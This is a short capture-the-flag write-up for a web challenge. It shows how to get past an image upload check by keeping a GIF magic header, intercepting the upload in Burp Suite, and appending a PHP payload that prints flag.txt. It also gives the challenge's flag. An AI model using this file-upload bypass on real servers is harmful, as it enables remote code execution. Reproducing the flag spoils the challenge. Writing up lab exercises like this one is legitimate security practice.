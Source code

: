 STEP 1: Choose a gif file to be uploaded
STEP 2: Intercept in Burp Suite
STEP 3: Keep the GIF magic number(GIF87a)
STEP 4: Add a php code to show flag.txt source
STEP 5: GIF89a
<?php show_source('./flag.txt');?>
OUTPUT: WEBSEC{BypassingImageChecksToRCE}
